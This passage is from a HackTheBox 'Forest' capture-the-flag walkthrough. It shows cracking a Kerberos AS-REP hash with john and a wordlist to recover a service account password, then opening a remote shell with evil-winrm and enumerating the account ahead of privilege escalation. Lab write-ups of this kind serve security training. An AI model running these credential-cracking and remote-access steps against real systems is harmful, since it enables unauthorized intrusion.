 Yay! We found a hash for the user `svc-alfresco`. Lets save it to a file and run `john`~

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Forest]
└─# john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt             ...
s3rvice          ($krb5asrep$svc-alfresco@HTB.LOCAL)     
...
```

# Exploit

Now that we have a username and password, what should we do?

Recall that `nmap` showed that port `5985` is open. According to [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/5985-5986-pentesting-winrm), we can initiate a `WinRM` session!

Fortunately, there is an easy way to do so using `evil-winrm`!

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Forest]
└─# evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice
...
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> 
```

# Privilege Escalation

Before we begin, lets find out more information regarding `svc-alfresco`.

```powershell
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net user svc-alfresco
User name                    svc-alfresco
Full Name                    svc-alfresco
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            7/14/2022 8:20:14 PM
Password expires             Never
Password changeable          7/15/2022 8:20:14 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   7/14/2022 8:09:19 PM

Logon hours allowed          All

Local Group Memberships
Global Group memberships     *Domain Users         *Service Accounts
The command completed successfully.
```
